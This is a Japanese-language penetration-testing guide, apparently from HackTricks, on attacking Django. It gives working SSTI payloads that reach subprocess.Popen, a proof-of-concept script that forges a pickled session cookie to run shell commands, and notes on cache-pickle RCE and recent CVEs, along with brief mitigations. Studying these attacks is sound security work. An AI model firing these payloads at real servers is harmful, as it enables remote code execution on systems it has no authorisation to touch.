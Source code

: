 # Django

{{#include /src/banners/hacktricks-training.md}}

## キャッシュ操作によるRCE
Djangoのデフォルトのキャッシュストレージ方法は[Python pickles](https://docs.python.org/3/library/pickle.html)であり、[信頼できない入力がアンピクルされる](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf)とRCEにつながる可能性があります。**攻撃者がキャッシュへの書き込みアクセスを取得できれば、この脆弱性を基盤となるサーバー上でのRCEにエスカレートさせることができます**。

Djangoのキャッシュは、[Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12)、[メモリ](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16)、[ファイル](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16)、または[データベース](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95)のいずれかに保存されます。Redisサーバーやデータベースに保存されたキャッシュは最も攻撃ベクトルになりやすい（RedisインジェクションやSQLインジェクション）ですが、攻撃者はファイルベースのキャッシュを利用して任意の書き込みをRCEに変えることも可能です。メンテナはこれを非問題としてマークしています。キャッシュファイルフォルダー、SQLテーブル名、Redisサーバーの詳細は実装に基づいて異なることに注意が必要です。

このHackerOneレポートは、SQLiteデータベースに保存されたDjangoキャッシュを悪用する素晴らしい再現可能な例を提供しています: https://hackerone.com/reports/1415436

---

## サーバーサイドテンプレートインジェクション（SSTI）
Djangoテンプレート言語（DTL）は**チューリング完全**です。ユーザー提供のデータが*テンプレート文字列*としてレンダリングされる場合（例えば、`Template(user_input).render()`を呼び出すか、`|safe`/`format_html()`が自動エスケープを削除する場合）、攻撃者は完全なSSTI → RCEを達成する可能性があります。

### 検出
1. *任意の*サニタイズされていないリクエストデータを含む`Template()` / `Engine.from_string()` / `render_to_string()`への動的呼び出しを探します。
2. 時間ベースまたは算術ペイロードを送信します:
```django
{{7*7}}
```
レンダリングされた出力に`49`が含まれていれば、入力はテンプレートエンジンによってコンパイルされています。

### プリミティブからRCEへ
Djangoは`__import__`への直接アクセスをブロックしますが、Pythonオブジェクトグラフにはアクセス可能です:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`のインデックスを見つけ（Pythonビルドによって約400〜500）、任意のコマンドを実行します：
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
より安全なユニバーサルガジェットは、`cls.__name__ == 'Popen'`になるまで反復することです。

同じガジェットは、ユーザー入力を誤って処理する**Debug Toolbar**や**Django-CMS**のテンプレートレンダリング機能にも適用されます。

---

## ピクルバックセッションクッキーRCE
設定`SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'`が有効になっている場合（またはピクルをデシリアライズするカスタムシリアライザ）、Djangoは**ビューコードを呼び出す前に**セッションクッキーを*復号化し、デシリアライズ*します。したがって、有効な署名キー（デフォルトではプロジェクトの`SECRET_KEY`）を持っているだけで、即座にリモートコード実行が可能です。

### 攻撃要件
* サーバーが`PickleSerializer`を使用している。
* 攻撃者が`settings.SECRET_KEY`を知っている/推測できる（GitHub、`.env`、エラーページなどからの漏洩）。

### 検証用コンセプト
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
クッキーを送信すると、ペイロードはWSGIワーカーの権限で実行されます。

**緩和策**: デフォルトの `JSONSerializer` を維持し、`SECRET_KEY` をローテーションし、`SESSION_COOKIE_HTTPONLY` を設定します。

---

## 最近の（2023-2025）高影響Django CVEをペンテスターが確認すべき
* **CVE-2025-48432** – *エスケープされていない `request.path` を介したログインジェクション*（2025年6月4日修正）。攻撃者が改行/ANSIコードをログファイルに密輸し、下流のログ分析を毒することを可能にします。パッチレベル ≥ 4.2.22 / 5.1.10 / 5.2.2。
* **CVE-2024-42005** – *`JSONField` の `QuerySet.values()/values_list()` における重大なSQLインジェクション*（CVSS 9.8）。JSONキーを作成して引用から抜け出し、任意のSQLを実行します。4.2.15 / 5.0.8で修正。

常に `X-Frame-Options` エラーページまたは `/static/admin/css/base.css` ハッシュを介して正確なフレームワークバージョンをフィンガープリンティングし、適用可能な場合は上記をテストします。

---

## 参考文献
* Djangoセキュリティリリース – "Django 5.2.2, 5.1.10, 4.2.22がCVE-2025-48432に対処" – 2025年6月4日。
* OP-Innovate: "DjangoがSQLインジェクションの欠陥CVE-2024-42005に対処するためのセキュリティ更新をリリース" – 2024年8月11日。

{{#include /src/banners/hacktricks-training.md}}

